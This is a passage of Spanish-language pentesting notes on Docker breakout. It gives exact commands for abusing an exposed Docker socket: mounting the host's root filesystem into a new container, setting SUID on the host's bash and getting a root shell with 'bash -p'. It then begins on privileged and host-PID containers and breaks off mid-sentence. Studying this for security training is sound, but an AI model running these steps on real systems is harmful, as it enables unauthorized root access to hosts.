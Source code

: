 #Escalada #DockerBreakout
###### Definición
Son técnicas para abusar de Docker con el objetivo de elevar nuestros privilegios de usuario y conseguir escapar del contenedor hacia la maquina host.

###### Explotación
Usaremos cuatro técnicas diferentes:
-  Uso de monturas en el despliegue de contenedores para acceder a archivos privilegiados del sistema host.
		Cuando nosotros llamamos a Docker hay un recurso en el sistema llamado Unix Socket File que permite comunicarse con el demonio(daemon) de Docker que se ubica en `/var/run/docker.sock`, cuando el demonio esta activo nos permite interactuar con Docker.
		Esto nos permite que una vez ganado acceso  a un sistema e identificado un servicio corriendo en un Docker y vemos que tiene el socket de Docker y nos deja crear contenedores podemos crear un nuevo contenedor jugando con monturas.
		Crearemos un nuevo contenedor por ejemplo: `docker pull ubuntu:latest`
		Replicamos la raíz de la maquina host con monturas `docker run --rm -dit -v /:/mnt/root --name ubuntuServer ubuntu`
		Ejecutamos el contenedor `docker exec -it ubuntuServer bash`
		Una vez nos encontremos dentro del contenedor si navegamos a `/mnt/root/bin` y le damos permisos de SUID a bash `chmod u+s bash` 
		En la maquina host usando el comando `bash -p` obtendremos una shell como root.

- Despliegue de contenedores PID y PRIVILEGED
		Si el contenedor ha sido levantado con `--pid=host` o `--privileged` 